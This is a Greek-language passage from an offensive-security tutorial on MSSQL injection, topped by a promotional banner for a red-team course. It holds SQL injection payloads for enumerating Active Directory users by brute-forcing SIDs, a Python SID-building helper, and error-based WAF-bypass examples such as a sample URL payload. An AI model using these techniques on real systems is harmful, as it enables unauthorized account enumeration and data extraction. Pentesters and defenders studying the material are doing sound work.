 # MSSQL Εισαγωγή

<details><summary><strong>Μάθετε το χάκινγκ του AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>

## Απαρίθμηση Active Directory

Είναι δυνατόν να **απαριθμήσετε τους χρήστες του domain μέσω SQL injection εντός ενός MSSQL** server χρησιμοποιώντας τις παρακάτω συναρτήσεις MSSQL:

* **`SELECT DEFAULT_DOMAIN()`**: Πάρτε το τρέχον όνομα του domain.
* **`master.dbo.fn_varbintohexstr(SUSER_SID('DOMAIN\Administrator'))`**: Εάν γνωρίζετε το όνομα του domain (_DOMAIN_ σε αυτό το παράδειγμα), αυτή η συνάρτηση θα επιστρέψει το **SID του χρήστη Administrator** σε μορφή hex. Αυτό θα μοιάζει με `0x01050000000[...]0000f401`, παρατηρήστε πώς τα **τελευταία 4 bytes** είναι το νούμερο **500** σε μορφή **big endian**, το οποίο είναι το **κοινό ID του χρήστη administrator**.\
Αυτή η συνάρτηση θα σας επιτρέψει να **μάθετε το ID του domain** (όλα τα bytes εκτός από τα τελευταία 4).
* **`SUSER_SNAME(0x01050000000[...]0000e803)`** : Αυτή η συνάρτηση θα επιστρέψει το **όνομα χρήστη του καθορισμένου ID** (εάν υπάρχει), σε αυτή την περίπτωση **0000e803** σε μορφή big endian == **1000** (συνήθως αυτό είναι το ID του πρώτου κανονικού χρήστη που δημιουργήθηκε). Έπειτα μπορείτε να φανταστείτε ότι μπορείτε να δοκιμάσετε με βία τα IDs χρηστών από 1000 έως 2000 και πιθανότατα να πάρετε όλα τα ονόματα χρηστών του domain. Για παράδειγμα, χρησιμοποιώντας μια συνάρτηση όπως η παρακάτω:
```python
def get_sid(n):
domain = '0x0105000000000005150000001c00d1bcd181f1492bdfc236'
user = struct.pack('<I', int(n))
user = user.hex()
return f"{domain}{user}" #if n=1000, get SID of the user with ID 1000
```
## **Εναλλακτικές μέθοδοι βασισμένες σε σφάλματα**

Οι SQL επιθέσεις βασισμένες σε σφάλματα συνήθως παρουσιάζουν κατασκευές όπως `+AND+1=@@version--` και παραλλαγές που βασίζονται στον τελεστή «OR». Οι ερωτήματα που περιέχουν τέτοιες εκφράσεις συνήθως αποκλείονται από τα WAFs. Για να παρακάμψετε αυτό, συνδυάστε ένα συμβολοσειριακό χαρακτήρα χρησιμοποιώντας τον χαρακτήρα %2b με το αποτέλεσμα συγκεκριμένων κλήσεων συναρτήσεων που προκαλούν σφάλμα μετατροπής τύπου δεδομένων στα επιθυμητά δεδομένα.

Ορισμένα παραδείγματα τέτοιων συναρτήσεων:

* `SUSER_NAME()`
* `USER_NAME()`
* `PERMISSIONS()`
* `DB_NAME()`
* `FILE_NAME()`
* `TYPE_NAME()`
* `COL_NAME()`

Παράδειγμα χρήσης της συνάρτησης `USER_NAME()`:
```
https://vuln.app/getItem?id=1'%2buser_name(@@version)--
```
![](https://swarm.ptsecurity.com/wp-content/uploads/2020/11/6.png)

